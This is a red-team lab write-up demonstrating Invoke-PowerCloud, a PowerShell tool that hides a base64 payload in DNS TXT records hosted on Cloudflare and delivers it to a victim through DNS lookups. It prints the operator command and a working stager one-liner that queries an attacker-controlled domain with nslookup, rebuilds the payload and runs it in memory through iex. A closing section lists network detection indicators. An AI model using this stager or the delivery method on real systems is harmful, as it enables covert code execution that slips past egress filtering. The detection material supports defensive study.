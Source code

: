 ```yaml
---
description: >-
  This lab demos a tool or rather a Powershell script I have written to do what
  the title says.
---
```


# Powershell Payload Delivery via DNS using Invoke-PowerCloud

## Credits

Rushing to say that the tool [Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) was heavily inspired by and based on the awesome work that Dominic Chell \([@domchell](https://twitter.com/domchell)\) from [MDSec](https://twitter.com/MDSecLabs) had done with [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) - go follow them and try out the [tool](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) if you are not doing so yet!

Not only that, I want to thank Dominic for taking his time to answer some of my questions regarding the PowerDNS, the setup and helping me troubleshoot it as I was having "some" issues getting the payload delivered to the target from the PowerDNS server.

...which eventually led me to Invoke-PowerCloud, so read on.

## What is Invoke-PowerCloud?

[Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) is a script that allows you to deliver a powershell payload using DNS TXT records to a target in an environment that is egress limited to DNS only.

## How is Invoke-PowerCloud different from PowerDNS?

I assume you have read [PowerShell DNS Delivery with PowerDNS](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) which explains how PowerDNS works.

Invoke-PowerCloud works in a similar fashion, except for a couple of key differences, which may simplify the configuration process of your infrastructure to start delivering paylods via DNS.   
  
**With PowerDNS you need:**

* a dedicated linux box with a public IP where you can run PowerDNS, so it can act as a DNS server
* you also need multiple domain names to get the nameservers configured properly

**With Invoke-PowerCloud you need:**

* a cloudflare.com account
* a domain name whose DNS management is transferred to cloudflare

## Cloudflare? eh?

The way the tool works is by performing the following high level steps:

* Take the powershell payload file and base64 encode it
* Divide the payload into chunks of 255 bytes
* Create a DNS zone file with DNS TXT records representing each chunk of the payload data retrieved from the previous step
* Send the generated DNS zone file to cloudflare using their APIs
* Generate two stagers for use with authoritative NS/non-authoritative NS
* Stager can then be executed on the victim system. The stager will recover the base64 chunks from the DNS TXT records and rebuild the original payload
* Stager executes the payload in memory!

{% hint style="info" %}
If you run the tool again to deliver another payload, the previous DNS TXT records will be deleted
{% endhint %}

## Demo

### One off Configuration

Remember - you need a cloudflare.com account for this to work. Assuming you have that, you need to edit the Invoke-PowerCloud as follows: 

1. your cloudflare API key, defined in the variable `$Global:API_KEY`
2. your cloudflare email address, defined in the variable `$Global:EMAIL`

![](../.gitbook/assets/screenshot-from-2018-10-15-22-11-03%20%281%29.png)

### DNS Management

Secondly, you need to move the domain name which you are going to use for payload delivery to cloudflare. In this demo, I will use a domain I own `redteam.me` which is now managed by cloudflare:

![](../.gitbook/assets/screenshot-from-2018-10-15-22-14-53.png)

Let's confirm redteam.me DNS is managed by cloudflare by issuing:

```text
host -t ns redteam.me
```

![](../.gitbook/assets/screenshot-from-2018-10-15-22-16-20.png)

### Payload

Let's create a simple payload file - it will print a red message to the screen and open up a calc.exe:

{% code-tabs %}
{% code-tabs-item title="payload.txt" %}
```csharp
Write-host -foregroundcolor red "This is our first payload using Invoke-
PowerCloud. As usual, let's pop the calc.exe"; Start-process calc.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Good to Go

We are now good to go - issue the below on your attacking system:

```csharp
PS C:\tools\powercloud> . .\powercloud.ps1; Invoke-PowerCloud -FilePath .\payload.txt -Domain redteam.me -Verbose
```

The script will generate two stagers. One of them is shown here:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$b64=""; (1..1) | ForEach-Object { $b64+=(nslookup -q=txt "$_.redteam.me")[-1] }; iex([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(($b64 -replace('\t|"',"")))))
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-15-22-47-26.png)

Let's execute the stager on the victim system to get the payload delivered via DNS:

![](../.gitbook/assets/screenshot-from-2018-10-15-22-47-12.png)

### Animated Demo

Everything in action can be seen in the below gif:

![](../.gitbook/assets/invoke-powercloud-demo.gif)

## Is Invoke-PowerCloud better than PowerDNS?

No. It just works slightly differently, but achieves the same end goal. Also note, that Cloudflare API rate limiting applies.

## Detection

Let's deliver a PowerShell empire payload using DNS and see how the system reacts to this:

![](../.gitbook/assets/empire-stager-via-dns.gif)

For those wondering about detection possibilities, the following is a list of signs \(mix and match\) that may qualify the host behaviour as `suspicious` and warrant a further investigation:

* host "suddenly" bursted "many" `DNS TXT` requests to one domain
* DNS queries follow the naming convention of 1, 2, 3, ..., N
* majority of DNS answers contain `TXT Lenght` of `255` \(trivial to change/randomize\)
* DNS answers are all `TTL = 120` \(trivial to change/randomize\)
* TXT data in DNS answer has no white spaces \(easy to change\)
* host suddenly/in a short span of time spawned "many" `nslookup` processes
* has the endpoint changed once the DNS lookups stopped? i.e new processes spawned?

Below is a snippet of the PCAP showing DNS traffic from the above demo - note the TXT Length and the data itself:

![](../.gitbook/assets/screenshot-from-2018-10-16-20-12-57.png)

Spike of `nslookup` for a host in a short amount of time:

![](../.gitbook/assets/screenshot-from-2018-10-16-20-17-42.png)

Below is a sample PCAP for your inspection:

{% file src="../.gitbook/assets/dns-packets.pcapng" caption="DNS Traffic Packet Trace" %}

## Download

You can download or contribute to Invoke-PowerCloud here:

{% embed url="https://github.com/mantvydasb/powercloud" %}

## References

{% embed url="https://github.com/mdsecactivebreach/PowerDNS" %}

{% embed url="https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/" %}

